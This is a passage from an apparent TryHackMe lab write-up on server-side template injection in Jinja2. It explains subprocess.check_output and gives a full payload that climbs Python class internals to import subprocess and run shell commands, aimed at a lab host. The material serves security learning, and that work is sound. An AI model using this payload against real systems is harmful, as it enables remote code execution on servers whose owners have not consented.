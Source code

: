 This method of passing arguments can potentially lead to shell injection vulnerabilities if user-controlled strings are concatenated directly into the command string. By requiring commands and their arguments to be passed as a list, `check_output` minimizes this risk.

### Understanding check_output Usage

The `check_output` function is designed to enhance security by separating the command from its arguments, which helps to prevent shell injection attacks. Here's the general syntax:

```python
subprocess.check_output([command, arg1, arg2])
```

- **command**: A string that specifies the command to execute.
- **arg1, arg2, ...**: Additional arguments that should be passed to the command.

### Correct Usage of check_output

To properly execute the `ls` command with options using `check_output`, you should pass the command and its arguments as separate elements in a list:

```python
subprocess.check_output(['ls', '-lah'])
```

The list **['ls', '-lah']** contains the command `ls` and its argument `-lah`. The command is clearly separated from its arguments, which ensures that each part is correctly handled as intended. So the final payload will then be `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}`

![directory contents with hidden files using the -lah argument](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716710150525)



### Practical
---

Let's visit:

```
http://ssti.thm:8002/jinja2/
```

We can test:

```jinja2
{{}}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180014.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250505180021.png)

Internal server error appeared, this means we are dealing with `jinja2`, we can use the following payload to achieve `rce`:
